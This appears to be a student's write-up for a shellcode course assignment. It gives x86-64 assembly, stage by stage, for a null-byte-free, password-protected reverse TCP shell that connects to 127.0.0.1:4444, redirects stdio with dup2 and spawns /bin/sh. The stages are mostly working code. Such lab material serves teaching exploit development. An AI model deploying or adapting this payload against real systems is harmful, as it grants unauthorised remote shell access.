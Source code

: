 # Reverse shell with Password

This assignment was split in two parts:
1. Create a nullbyte free version of the reverse tcp shellcode presented in class
2. Write a reverse tcp shellcode that spawns a shell after authentication

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Init socket

I reused the first part of my bindshell shellcode to create a socket:

```
    push SYS_SOCKET
    pop rax
    push AF_INET
    pop rdi
    push SOCK_STREAM
    pop rsi
    cdq

    syscall

    mov rdi, rax ; save socket

```

## Init the sockaddr_in

This part of the shellcode is equivalent to the following C snippet:
```
     server.sin_family = AF_INET 
     server.sin_port = htons(PORT)
     server.sin_addr.s_addr = inet_addr("127.0.0.1")
     bzero(&server.sin_zero, 8)
```

As I did for the previous assignment I used shifts and the lower byte registers to create the struct:
```
    xor rax, rax 
    push rax ; set sin_zero
	
    inc eax
    shl eax, 0x18
    add al, 0x7f 
    shl rax, 0x10 ; set IP in struct
    
    add ax, 0x5c11; set port 4444
    shl rax, 0x10
    
    add al, 2; sin_family = AF_INET
    push rax ; RSP does now point to the struct
```

## Connect
In this part the connect syscall is executed in order to connect to the ip and port specified in the sockaddr_in struct.

C pseudocode equivalent:

```
    connect(sock, (struct sockaddr *)&server, sockaddr_len)
```

Assembly:
```
    push SYS_CONNECT
    pop rax ; Rax now contains the SYS_CONNECT syscall number
    mov rsi, rsp ; Rsp points to the sockaddr_in struct and is moved to rsi
    push 16
    pop rdx ; sockaddr_len in rdx
    syscall
```

## Authentication
Similar to the last assignment I read 4 bytes from stdin and compare them to the configured password. I store the read bytes in the sin_zero field of the sockaddr_in struct as we dont need it anymore and it saves me some bytes to create a null byte.
```
    sub rsi, 0x10 ; Reuse sin_zero from struct
    push 4
    pop rdx ; read 4 bytes
    xor rax,rax ; rax = syscall_read()
    syscall

    cmp dword[rsi], PASSWORD
    jne _burn ; Raise a sigsegv if the wrong password was entered.
```

## DUP2 loop
In this part I duplicate stdin,stout and stderr to the connected socket sothat we can communicate properly. Again I use a loop to iterate the file descriptors.

In C:
```
    dup2(client, STDIN)
    dup2(client, STDOUT)
    dup2(client, STERR)
```

```
    push 3 ; fd counter in rsi 
    pop rsi

    _loop:

    dec esi ; we start with duplicating stderr
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop ; terminate loop if stdin was duplicated
```

## Pop a shell
Again this is a very basic execve shellcode that spawns /bin/sh

```
    xor rax, rax
    push rax 
    mov rbx, 0x68732f2f6e69622f ; /bin/sh
    push rbx
    mov rdi, rsp ; rdi points to /bin/sh
    push rax
    mov rdx, rsp ; rdx points to null
    push rdi
    mov rsi, rsp ; rsi points to /bin/sh
    add rax, 59
    syscall
```

